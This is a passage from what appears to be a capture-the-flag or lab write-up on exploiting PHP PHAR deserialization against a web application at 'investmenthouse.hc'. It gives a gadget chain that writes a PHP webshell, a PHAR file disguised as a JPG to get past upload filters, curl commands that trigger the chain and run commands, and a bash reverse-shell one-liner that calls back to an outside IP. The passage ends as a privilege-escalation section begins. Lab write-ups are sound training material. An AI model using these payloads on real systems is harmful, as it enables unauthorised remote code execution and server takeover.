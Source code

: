 5. **Object Reconstruction**: PHP reconstructs our `LogManager` object with the malicious properties

6. **Destructor Execution**: When the object goes out of scope, `__destruct()` is called

7. **File Writing**: `file_put_contents('/var/www/investmenthouse.hc/public/uploads/shell.php', '<?php system($_REQUEST[0]) ?>')` is executed

8. **Webshell Creation**: Our webshell is written to the server

This should create our webshell at `/var/www/investmenthouse.hc/public/uploads/shell.php`.

### Uploading the PHAR File

We need to upload the `exploit.phar.jpg` file to the profile (assuming there's a file upload functionality) and then use the `phar://` wrapper to trigger deserialization:
> The `.jpg` extension is used to bypass file type restrictions while maintaining the PHAR functionality.
{: .prompt-tip}

### Triggering the Deserialization

Once uploaded, we can trigger the PHAR deserialization by accessing the download controller with the `phar://` wrapper:

```bash
curl 'http://investmenthouse.hc/?p=download.php&f=phar://uploads/68daebf7c5afe_exploit.phar.jpg' -o -
```

![PHAR Upload](file-20250929202956084.png)

### Web Shell Access

We can now access our webshell:

```bash
curl 'http://investmenthouse.hc/uploads/shell2.php?0=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To get a reverse shell:

```bash
curl 'http://investmenthouse.hc/uploads/shell2.php' -G --data-urlencode '0=bash -c "bash -i >& /dev/tcp/10.0.72.105/9999 0>&1"'
```

![Reverse Shell](file-20250929193908083.png)

## Privilege Escalation

### SUID Binary Discovery

Looking for SUID binaries on the system:
